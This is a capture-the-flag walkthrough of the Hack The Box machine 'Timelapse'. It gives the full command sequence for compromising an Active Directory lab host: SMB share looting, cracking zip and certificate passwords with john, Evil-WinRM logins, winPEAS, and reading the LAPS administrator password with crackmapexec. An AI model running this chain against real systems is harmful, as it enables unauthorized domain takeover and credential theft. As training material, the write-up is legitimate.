









# HTB - Timelapse

#### Ip: 10.10.11.152
#### Name: Timelapse
#### Rating: Easy

----------------------------------------------------------------------



### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Timelapse]
└─$ sudo nmap -p-  --min-rate 10000 10.10.11.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 14:39 CDT
Nmap scan report for 10.10.11.152
Host is up (0.069s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5986/tcp  open  wsmans
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49696/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Lets also scan the port with `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Timelapse]
└─$ sudo nmap -sC -sV -T4 10.10.11.152 -p 53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49667,49673,49674,49696
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 14:41 CDT
Nmap scan report for 10.10.11.152
Host is up (0.067s latency).

PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-08-04 03:41:26Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2023-08-04T03:42:56+00:00; +7h59m59s from scanner time.
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49696/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-08-04T03:42:17
|_  start_date: N/A
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m58s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.68 seconds
```

Lets go ahead and add `10.10.11.152 timelapse.htb` to `/etc/hosts`.

Taking a look at SMB first, it looks like we have Read access to a couple of shares as the guest user:



We can use smbclient to enumerate the shares:

```text
┌──(ryan㉿kali)-[~/HTB/Timelapse]
└─$ smbclient \\\\10.10.11.152\\shares -U guest
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 10:39:15 2021
  ..                                  D        0  Mon Oct 25 10:39:15 2021
  Dev                                 D        0  Mon Oct 25 14:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 10:48:42 2021

		6367231 blocks of size 4096. 1287663 blocks available
smb: \> cd Dev
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 14:40:06 2021
  ..                                  D        0  Mon Oct 25 14:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 10:46:42 2021

		6367231 blocks of size 4096. 1287327 blocks available

smb: \Dev\> get winrm_backup.zip 
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (2.5 KiloBytes/sec) (average 2.5 KiloBytes/sec)
```

Trying to unzip the file we see it is a .pfx. But looks like its password protected.

```text
┌──(ryan㉿kali)-[~/HTB/Timelapse]
└─$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password
```

Lets use zip2john and JohntheRipper to crack this:



Cool, we can now unzip and extract the file:

```text
┌──(ryan㉿kali)-[~/HTB/Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
Enter Import Password:
```

Rats, its prompting for another password, and the supremelegacy password discovered earlier isn't valid here. 

Lets crack this password using john again, as well as pfx2john:



Lets try extracting again:

```text
┌──(ryan㉿kali)-[~/HTB/Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```
Note: you can set the PEM pass phrase to whatever you want (and will remember).I used the word howdy this time. 

Lets also grab that certificate too:

```text
┌──(ryan㉿kali)-[~/HTB/Timelapse]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
Enter Import Password:
```

We can now login to the machine using Evil-WinRM:



And grab the user.txt flag:



### Privilege Escalation

I always like to check what other users are on the domain:

```text
*Evil-WinRM* PS C:\Users\legacyy\Desktop> net users /domain
Enter PEM pass phrase:

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.
```
Next I'll create a directory called TEMP and upload a copy of WinPEAS to the target:

```text
*Evil-WinRM* PS C:\> mkdir TEMP


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         8/3/2023   9:19 PM                TEMP


*Evil-WinRM* PS C:\> cd TEMP
*Evil-WinRM* PS C:\TEMP> ls
*Evil-WinRM* PS C:\TEMP> upload ~/Tools/privesc/winPEASx64.exe
Info: Uploading ~/Tools/privesc/winPEASx64.exe to C:\TEMP\winPEASx64.exe

Enter PEM pass phrase:
                                                             
Data: 2581844 bytes of 2581844 bytes copied

Info: Upload successful!
```

Running the executable, winPEAS finds there is a PowerShell history file present. 



Lets check that out:



Nice, we've discovered another pair of credentials. Lets login use these now:

```text
┌──(ryan㉿kali)-[~/HTB/Timelapse]
└─$ evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

Poking around I'm not seeing much. But thinking back to the very start of the box when we were enumerating SMB, I recalled seeing several documents about LAPS in the `Helpdesk` share, but didn't think much of it at the time.

Using CrackMapExec with our newly discovered credentials, we find that svc_deploy has the ability to read the administrator's password:

```text
┌──(ryan㉿kali)-[~/HTB/Timelapse]
└─$ crackmapexec smb 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --laps
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [-] DC01\administrator:pm38wd4.QQv;AC)6YE%c@7TP STATUS_LOGON_FAILURE
```

Which means we can just take this and login as the admin:

```text
┌──(ryan㉿kali)-[~/HTB/Timelapse]
└─$ evil-winrm -i 10.10.11.152 -u administrator -p 'pm38wd4.QQv;AC)6YE%c@7TP' -S

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
dc01
```

Nice! All that is left now is to grab that final flag:



Thanks for following along!

-Ryan

------------------------------------------------------
